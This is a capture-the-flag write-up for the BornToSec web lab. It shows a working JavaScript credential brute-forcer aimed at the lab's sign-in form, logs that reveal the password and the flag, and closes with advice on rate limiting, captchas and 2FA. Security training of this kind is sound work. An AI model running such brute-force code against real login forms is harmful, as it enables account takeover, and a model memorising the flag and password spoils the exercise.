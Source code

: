 # Sign in form Bruteforce

## How we found the breach

On the page `http://IP/?page=signin` we can find the sign in form, it takes a username and a password.

After hacking into the server database we found several user's usernames in database.

To see how we've scanned the data please look at:

[SQL injection on members table explanations →](../../sql_injection_members_table/Ressources/Explanations.md)

```js
// Only surname
"me", "GetThe",
// Surname + First name
"GetTheFlag", "meone", "metwo", "methree",
```

Also after scanning the whole database we did not found any password columns in any tables.

This is why we went for the bruteforce option, even more when there's not visible protection about it after several attempts.

### The Bruteforce script

We will use the following password and usernames dataset for the form inputs value:

- [usernames →](https://github.com/danielmiessler/SecLists/blob/master/Usernames/top-usernames-shortlist.txt)
- [passwords →](https://github.com/danielmiessler/SecLists/blob/master/Passwords/darkweb2017-top1000.txt)

We will then hit the endpoint below with all the possibilities until the server returns an authenticated page.

```js
`http://IP/?page=signin&username=${username}&password=${password}&Login=Login#`
```

#### The main logic

```js
  await Promise.all(usernameCollection.map(async username => {
        for (const password of passwordCollection) {
            try {
                const endpointToHit = getEndpoint({ username, password });
                const response = await fetch(endpointToHit);
                const renderedPage = await response.text()
                const attemptFailed = renderedPage.includes(BAD_AUTH_ERROR_IMAGE)

                // In case of wrong authentication attempt the following image is rendered by the server
                // The Status code stays 200
                // <img src="images/WrongAnswer.gif" alt=""> 
                if (attemptFailed) {
                    console.log(`FAILURE for pair: username=${username} password=${password}`)
                    continue
                } else {
                    console.log(`SUCCESS for pair: username=${username} password=${password}`)
                    console.log({ renderedPage })
                    console.log('_'.repeat(10))
                    break;
                }

            } catch (e) {
                console.log(`Unknown error on attempt for username=${username} password=${password}`)
                continue
            }
        }
    }))
```

After running the script, it leads to a successful attempt for all the concurrent users on the 95th password: `shadow`.
Indeed the username is not mandatory, filling the password input with `shadow` is enough the retrieve the flag from the server.

#### Log snippet

```zsh
# ...
FAILURE for pair: username=wil password=696969
FAILURE for pair: username=admin password=letmein
FAILURE for pair: username=metwo password=696969
FAILURE for pair: username=methree password=696969
FAILURE for pair: username=meone password=696969
FAILURE for pair: username=GetThe password=696969
FAILURE for pair: username=GetTheFlag password=696969
SUCCESS for pair: username=wil password=shadow
{
  renderedPage: '<!DOCTYPE HTML>\n' +
    '<html>\n' +
    '\t<head>\n' +
    '\t\t<title>BornToSec - Web Section</title>\n' +
    '\t\t<meta http-equiv="content-type" content="text/html; charset=utf-8" />\n' +
    '\t\t<meta name="description" content="" />\n' +
    '\t\t<meta name="keywords" content="" />\n' +
    '\t\t<!--[if lte IE 8]><script src="js/html5shiv.js"></script><![endif]-->\n' +
    '\t\t<script src="js/jquery.min.js"></script>\n' +
    '\t\t<script src="js/skel.min.js"></script>\n' +
    '\t\t<script src="js/skel-layers.min.js"></script>\n' +
    '\t\t<script src="js/init.js"></script>\n' +
    '\t\t<noscript>\n' +
    '\t\t\t<link rel="shortcut icon" type="image/x-icon" href="/favicon.ico" />\n' +
    '\t\t\t<link rel="icon" type="image/x-icon" href="favicon.ico" />\n' +
    '\t\t\t<link rel="stylesheet" href="css/skel.css" />\n' +
    '\t\t\t<link rel="stylesheet" href="css/style.css" />\n' +
    '\t\t\t<link rel="stylesheet" href="css/style-xlarge.css" />\n' +
    '\t\t</noscript>\n' +
    '\t</head>\n' +
    '\t<body class="landing">\n' +
    '\t\t<!-- Header -->\n' +
    '\t\t<header id="header" >\n' +
    '\t\t\t\t\t\t\t\t<a href=http://192.168.56.101><img src=http://192.168.56.101/images/42.jpeg height=82px width=82px/></a>\n' +
    '\t\t\t\t\t\t\t\t<nav id="nav">\n' +
    '\t\t\t\t\t<ul>\n' +
    '\t\t\t\t\t\t<li><a href="index.php">Home</a></li>\n' +
    '\t\t\t\t\t\t<li><a href="?page=survey">Survey</a></li>\n' +
    '\t\t\t\t\t\t<li><a href="?page=member">Members</a></li>\n' +
    '\t\t\t\t\t</ul>\n' +
    '\t\t\t\t</nav>\n' +
    '\t\t\t</header>\n' +
    '\n' +
    '\t\t<!-- Main -->\n' +
    '\t\t\t<section id="main" class="wrapper">\n' +
    '\t\t\t\t<div class="container" style="margin-top:75px">\n' +
    '<center><h2 style="margin-top:50px;">The flag is : b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2 </h2><br/><img src="images/win.png" alt="" width=200px height=200px></center>\t\t\t\t</div>\n' +
    '\t\t\t</section>\n' +
    '\t\t<!-- Footer -->\n' +
    '\t\t\t<footer id="footer">\n' +
    '\t\t\t\t<div class="container">\n' +
    '\t\t\t\t\t<ul class="icons">\n' +
    '\t\t\t\t\t\t<li><a href="index.php?page=redirect&site=facebook" class="icon fa-facebook"></a></li>\n' +
    '\t\t\t\t\t\t<li><a href="index.php?page=redirect&site=twitter" class="icon fa-twitter"></a></li>\n' +
    '\t\t\t\t\t\t<li><a href="index.php?page=redirect&site=instagram" class="icon fa-instagram"></a></li>\n' +
    '\t\t\t\t\t</ul>\n' +
    '\t\t\t\t\t<ul class="copyright">\n' +
    '\t\t\t\t\t\t<a href="?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f"><li>&copy; BornToSec</li></a>\n' +
    '\t\t\t\t\t</ul>\n' +
    '\t\t\t\t</div>\n' +
    '\t\t\t</footer>\n' +
    '\t</body>\n' +
    '</html>\n' +
    '\n'
}
__________
# ...
```

## How to exploit the breach

From there we could perform any operation we want inside the application, authenticated as the hacked user.

For example for mailBox account we could send emails impersonating the hacked user.

And overall we could even change the user's password depending on the application security rigor.

## How to avoid the breach

Several solution or good practices exist, such as limiting the amount of request from the same IP or adding a recaptcha usage on the form.

[2FA](https://en.wikipedia.org/wiki/Multi-factor_authentication) authentication such a google Authenticator, requesting the user to validate it's identity on one of his other devices.
